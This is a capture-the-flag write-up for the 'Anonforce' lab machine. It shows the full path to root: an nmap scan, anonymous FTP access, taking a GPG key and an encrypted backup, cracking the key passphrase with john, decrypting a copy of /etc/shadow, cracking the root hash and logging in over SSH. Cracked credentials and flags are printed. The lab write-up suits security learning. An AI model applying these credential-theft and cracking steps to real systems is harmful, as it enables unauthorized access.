






## TL;DR

In this challenge we login anonymously to ftp server, find encrypted backup and private key. Then we crack the passphrase of the private key, and find user hash inside backup. We crack the hash and login to the server via ssh.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see that port `21` is opened with ftp, and port `22` is opened with ssh..

```bash
PORT      STATE    SERVICE   VERSION                                                                                                                         
21/tcp    open     ftp       vsftpd 3.0.3                                                                                                                    
| ftp-syst:                                                                                                                                                  
|   STAT:                                                                                                                                                    
| FTP server status:                                                                                                                                         
|      Connected to ::ffff:10.9.0.51                                                                                                                         
|      Logged in as ftp                                                                                                                                      
|      TYPE: ASCII                                                                                                                                           
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 3                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable  
```

### Login anonymously to ftp, Find /notread directory and crack gpg private key passphrase

We can login anonymously to the `ftp` 
```bash
┌──(agonen㉿kali)-[~/thm/Anonforce]
└─$ ftp anonymous@$target                                                                                                       
Connected to 10.10.243.34.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

There, we can see we have whole linux machine included via the ftp:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||59060|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
drwxr-xr-x   17 0        0            3700 Nov 09 01:37 dev
drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
drwx------    2 0        0           16384 Aug 11  2019 lost+found
drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
dr-xr-xr-x   91 0        0               0 Nov 09 01:37 proc
drwx------    3 0        0            4096 Aug 11  2019 root
drwxr-xr-x   18 0        0             540 Nov 09 01:37 run
drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
dr-xr-xr-x   13 0        0               0 Nov 09 01:37 sys
drwxrwxrwt    9 0        0            4096 Nov 09 01:37 tmp
drwxr-xr-x   10 0        0            4096 Aug 11  2019 usr
drwxr-xr-x   11 0        0            4096 Aug 11  2019 var
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
```

So, I first went to `/home`, find user `melodias` and got `user.txt`

```bash
ftp> cd /home/melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32354|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||65058|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |****************************************************************************************************************|    33       34.87 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.15 KiB/s)
```

```bash
┌──(agonen㉿kali)-[~/thm/Anonforce]
└─$ cat user.txt                                
606083fd33beb1284fc51f411a706af8
```

Next, we can see the folder `/notread` in root folder, it looks suspicious, let's try to get it:
```bash
wget -m ftp://anonymous@$target/notread
```




Inside we can see 2 files, `backup.gpg` which holds the backup encrypted, and `private.asc`
```bash
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ ls
backup.pgp  private.asc
```

I tried to import `private.asc` and decrypt `backup.gpg`, but it asks for passphrase



```bash
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ gpg --import private.asc
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ gpg --decrypt backup.pgp
gpg: encrypted with elg512 key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
gpg: public key decryption failed: Operation cancelled
gpg: decryption failed: Operation cancelled```
```

We can use john the ripper to crack the passphrase, using `gpg2john` util:

```bash
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ gpg2john private.asc > hashes.txt

File private.asc
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ john hashes.txt 

┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ john hashes.txt --show
anonforce:xbox360:::anonforce <melodias@anonforce.nsa>::private.asc

1 password hash cracked, 0 left
``` 

So, the passphrase is `xbox360`, now we can decrypt `backup.gpg`.

### Find root password hash crack and login as root through ssh

```bash
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ gpg --decrypt backup.pgp > backup_decrypted
gpg: encrypted with elg512 key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
```

And this is the decrypted data:
```bash
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::   
```



Looks like we got `/etc/shadow`.

These two lines are the most interesting lines:
```bash
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

Using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) I managed to crack the root hash.



```bash
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
```

Well done, I tried to `ssh` as `root` with the password `hikari`, and it worked!



We can grab the root flag, and finish the challenge.

```bash
┌──(agonen㉿kali)-[~/thm/Anonforce/10.10.101.148/notread]
└─$ ssh root@$target          
The authenticity of host '10.10.101.148 (10.10.101.148)' can't be established.
ED25519 key fingerprint is SHA256:+bhLW3R5qYI2SvPQsCWR9ewCoewWWvFfTVFQUAGr+ew.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.101.148' (ED25519) to the list of known hosts.
root@10.10.101.148's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cat /root/root.txt 
f706456440c7af4187810c31c6cebdce
```


